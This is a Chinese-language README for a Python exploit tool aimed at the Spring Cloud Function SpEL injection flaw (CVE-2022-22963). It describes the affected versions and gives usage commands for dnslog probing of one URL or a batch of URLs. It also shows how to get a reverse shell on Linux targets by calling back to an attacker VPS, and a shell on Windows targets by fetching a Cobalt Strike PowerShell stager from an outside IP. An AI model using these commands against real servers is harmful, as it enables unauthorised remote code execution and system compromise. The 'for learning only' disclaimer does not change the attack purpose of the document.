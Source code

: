 # Spring Cloud Function SPEL表达式注入漏洞（CVE-2022-22963）

>Spring框架为现代基于java的企业应用程序(在任何类型的部署平台上)提供了一个全面的编程和配置模型。
>
>Spring Cloud 中的 serveless框架 Spring Cloud Function 中的 RoutingFunction 类的 apply 方法将请求头中的“spring.cloud.function.routing-expression”参数作为 Spel 表达式进行处理，造成Spel表达式注入，攻击者可通过该漏洞执行任意代码。
>
>影响范围：3.0.0.RELEASE <= Spring Cloud Function <= 3.2.2
>
>**脚本仅供学习使用，如作他用所承受的法律责任一概与作者无关**

## 1.installation(安装模块)

```shell
pip3 install -r requirements.txt	
```

## 2.Usage(用法)

`python3 spring-cloud-function-rce.py -h`

![image-20220414184058525](README.assets/image-20220414184058525.png)

>-u 指定单个url进行dnslog测试
>
>-e 指定反弹shell模式
>
>-s 指定目标主机操作系统,默认linux,参数为win/linux **配合-i和-c参数使用**

## 3.example(使用案例)

### 3.1 单个url测试

`python3 spring-cloud-function-rce.py -u "http://192.168.50.222:8080/"`

![image-20220414184202055](README.assets/image-20220414184202055.png)

### 3.2 批量url测试

`python3 spring-cloud-function-rce.py -f "urls.txt"`

![image-20220414184424640](README.assets/image-20220414184424640.png)

>- 123.58.236.76:47874是vulfocus的docker靶场，没有安装nslookup命令，所以dnslog测试失败
>- 批量url地址一定要是网站根目录，http://192.168.50.222:8080/ 是本地搭建靶场的根目录，加了test目录会导致poc失效

### 3.3 linux靶机getshell

`python3 spring-cloud-function-rce.py -u "http://192.168.50.222:8080/" -e -i "vps的ip地址:5566"`

![image-20220414185231029](README.assets/image-20220414185231029.png)

### 3.4 windows靶机getshell

`python3 spring-cloud-function-rce.py -u "http://192.168.50.222:8080/" -e -s "win" -c "http://1.117.155.217/21918"`

> -c指定cs生成powershell上线代码的地址，必须配合 -s "win"使用

![image-20220414185711222](README.assets/image-20220414185711222.png)

![image-20220414190020294](README.assets/image-20220414190020294.png)

## 4. 靶场

### 4.1 idea自行搭建

### [参考地址](https://www.anquanke.com/post/id/271167)

### 4.2 docker靶场

[vulfocus](http://vulfocus.io/)

![image-20220414190509578](README.assets/image-20220414190509578.png)